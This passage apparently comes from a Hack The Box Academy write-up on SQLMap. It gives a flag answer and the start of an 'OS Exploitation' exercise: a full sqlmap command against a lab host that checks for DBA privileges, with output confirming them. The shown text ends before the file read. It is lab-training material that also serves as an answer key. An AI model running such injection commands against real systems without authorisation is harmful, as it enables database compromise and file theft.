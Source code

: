 **Answer**

```
HTB{5p3c14l_ch4r5_n0_m0r3}
```

---

## Exercise - OS Exploitation

#### Question #14

**Question**

Try to use SQLMap to read the file `/var/www/html/flag.txt`.

![Firefox - OS Exploitation GET Parameter (id)](./assets/screenshots/sqlmap_essentials_firefox_os_exploitation_get_parameter_id.png)

```javascript
--batch --is-dba
```

```
┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-s3yszxz6oh]─[~]
└──╼ [★]$ sqlmap 'http://94.237.59.168:58202/?id=1*' --compressed -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:128.0) Gecko/20100101 Firefox/128.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Referer: http://94.237.59.168:58202/' -H 'DNT: 1' -H 'Connection: keep-alive' -H 'Upgrade-Insecure-Requests: 1' -H 'Sec-GPC: 1' -H 'Priority: u=0, i' --batch --is-dba

[SNIP]

[06:46:40] [INFO] testing if current user is DBA
[06:46:40] [INFO] fetching current user
current user is DBA: True

[SNIP]
```
